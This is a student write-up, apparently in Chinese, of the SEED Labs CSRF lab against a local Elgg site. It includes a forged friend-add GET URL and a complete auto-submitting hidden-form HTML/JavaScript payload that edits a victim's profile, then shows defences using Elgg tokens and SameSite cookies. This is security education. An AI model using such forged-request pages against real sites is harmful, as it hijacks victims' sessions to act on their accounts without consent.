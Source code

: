 # CSRF
The objective of this lab is to help students understand the Cross-Site Request Forgery (CSRF or XSRF) attack. A CSRF attack involves a victim user, a trusted site, and a malicious site. The victim user holds an active session with a trusted site while visiting a malicious site. The malicious site injects an HTTP request for the trusted site into the victim user session, causing damages.

In this lab, students will be attacking a social networking web application using the CSRF attack. The open-source social networking application called Elgg has countermeasures against CSRF, but we have turned them off for the purpose of this lab.

https://seedsecuritylabs.org/Labs_20.04/Web/Web_CSRF_Elgg/
Tasks: https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Web_CSRF_Elgg.pdf
Lab setup: https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip

## 配置环境
1. 下载并解压lab setup。
2. `docker-compose build`
3. `docker-compose up`
4. 向`/etc/hosts`中加入相关域名
    ```
    10.9.0.5 www.seed-server.com
    10.9.0.5 www.example32.com
    10.9.0.105 www.attacker32.com
    ```

## 实验

### 攻击
#### HTTP GET服务的CSRF

![image-20220110165109453](Ch9-CSRF.assets/image-20220110165109453.png)

![image-20220110165131092](Ch9-CSRF.assets/image-20220110165131092.png)

![image-20220110165147314](Ch9-CSRF.assets/image-20220110165147314.png)

如图，环境已经配置完毕。

在Elgg中登录charlie的账号（charlie是samy的小号），添加samy到好友列表，抓包可以发现这个过程是一个GET请求。

![image-20220111001423028](Ch9-CSRF.assets/image-20220111001423028.png)

`http://www.seed-server.com/action/friends/add?friend=59`

59代表samy的GUID。



在attacker的docker里编辑HTML文件。`docksh`来进入attacker的docker。

```
cd /var/www/attacker
nano addfriend.html
```

![image-20220111002116878](Ch9-CSRF.assets/image-20220111002116878.png)

---

模拟Alice行为。

Alice登录到Elgg，这时候firends空无一人。

![image-20220111002313591](Ch9-CSRF.assets/image-20220111002313591.png)

然后点击samy提供的链接：

`http://www.attacker32.com/addfriend.html`

，于是Alice在不知情的情况下将samy添加为frineds。

![image-20220111002414159](Ch9-CSRF.assets/image-20220111002414159.png)

#### HTTP POST服务的CSRF

使用charlie的账号登录，修改个人资料，抓包分析请求格式。

![image-20220112193512873](Ch9-CSRF.assets/image-20220112193512873.png)

Alice的GUID可以通过对加Alice为好友的HTTP GET请求抓包来获得。

`editprofile.html`内容如下：

```html
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
    fields += "<input type='hidden' name='guid' value='56'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}


// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>

```



Alice点击`http://www.attacker32.com/editprofile.html`，发现个人资料被修改。

![image-20220112193955873](Ch9-CSRF.assets/image-20220112193955873.png)

---

Question 1: The forged HTTP request needs Alice’s user id (guid) to work properly. If Boby targets Alice specifically, before the attack, he can find ways to get Alice’s user id. Boby does not know Alice’s Elgg password, so he cannot log into Alice’s account to get the information. Please describe how Boby can solve this problem.

Answer 1: Boby登录自己的账号，对将Alice添加到好友列表的过程抓包，可以获得Alice的GUID。

Question 2: If Boby would like to launch the attack to anybody who visits his malicious web page. In this case, he does not know who is visiting the web page beforehand. Can he still launch the CSRF attack to modify the victim’s Elgg profile? Please explain.

Answer2: 不能对任何人发动攻击，因为修改资料的POST请求需要GUID参数，而通过JavaScript没有办法获取跨域的cookie，无从得知当前登录用户的GUID。

### 防御

#### 启用Elgg的对策

`nano /var/www/elgg/vendor/elgg/elgg/engine/classes/Elgg/Security/Csrf.php`

删除`public function validate(Request $request)`下面的`return;`

保存后，再次尝试上述攻击，均以失败告终。这是因为开启CSRF对策后，elgg会检验`__elgg_token`和`__elgg_ts`字段，后者是一个时间戳，前者是会话id+时间戳的MD5。攻击者不能获得elgg的会话id，无法生成token，无法进行CSRF攻击。

<img src="Ch9-CSRF.assets/image-20220112200327788.png" alt="image-20220112200327788" style="zoom:50%;" />

#### SameSite cookies

访问`http://www.example32.com/`，此时会产生三个cookies。

![image-20220112201114033](Ch9-CSRF.assets/image-20220112201114033.png)

点击Link A，跳转到`http://www.example32.com/testing.html`

![image-20220112201219914](Ch9-CSRF.assets/image-20220112201219914.png)

无论是`http://www.example32.com/showcookies.php`，还是发送GET或POST请求，都可以看到三个cookies。说明这是同站请求。

![image-20220112201239962](Ch9-CSRF.assets/image-20220112201239962.png)

点击Link B，跳转到`http://www.attacker32.com/testing.html`。

![image-20220112201359988](Ch9-CSRF.assets/image-20220112201359988.png)

跳转到`http://www.example32.com/showcookies.php`，这时`cookie-strict`是无效的。

![image-20220112201347432](Ch9-CSRF.assets/image-20220112201347432.png)

从`attacker32.com`发送`example32.com`的GET请求，这时`cookie-strict`是无效的。

![image-20220112201458868](Ch9-CSRF.assets/image-20220112201458868.png)

从`attacker32.com`发送`example32.com`的POST请求，这时`cookie-strict`和`cookie-lax`是无效的。

![image-20220112201556266](Ch9-CSRF.assets/image-20220112201556266.png)

Elgg可以在创建cookie时，设置为Strict，以防止CSRF攻击。

#### 参见

一些PHP代码段：

显示所有cookies：

```php

<?php
foreach ($_COOKIE as $key=>$val)
  {
    echo '<li><h3>'.$key.'='.$val."</h3></li>\n";
  }
?>

```

设置cookie：

```php
<?php
  setcookie('cookie-normal', 'aaaaaa');
  setcookie('cookie-lax', 'bbbbbb', ['samesite' => 'Lax']);
  setcookie('cookie-strict', 'cccccc', ['samesite' => 'Strict']);
?>

```

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite